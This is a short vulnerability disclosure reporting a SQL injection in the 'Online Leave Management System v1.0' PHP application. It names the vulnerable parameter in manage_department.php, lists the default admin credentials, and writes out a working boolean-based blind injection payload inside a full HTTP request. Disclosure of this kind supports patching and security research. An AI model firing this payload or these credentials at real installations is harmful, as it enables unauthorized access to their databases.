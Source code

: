 # Online Leave Management System v1.0 by oretnom23 has SQL injection

BUG_Author: Zhang Huaiyu

Login account: admin/admin123 (Super Admin account)

vendors: https://www.sourcecodester.com/php/14910/online-leave-management-system-php-free-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /leave_system/admin/maintenance/manage_department.php?id

Vulnerability location: /leave_system/admin/maintenance/manage_department.php?id=,id

dbname=leave_db,length=8

[+] Payload:  /leave_system/admin/maintenance/manage_department.php?id=1%27%20and%20length(database())%20=9--+ // Leak place ---> id

```sql
GET /leave_system/admin/maintenance/manage_department.php?id=1%27%20and%20length(database())%20=9--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=a58hbbkeelngug4ek0dssb0rb5
Connection: close
```

length=8
![image](https://user-images.githubusercontent.com/54017627/183633543-fd62b8fe-47f2-4164-afee-9056a1592977.png)


length=9
![image](https://user-images.githubusercontent.com/54017627/183633371-9723cd4a-8bbd-40f1-835f-fd0b4443e2e5.png)

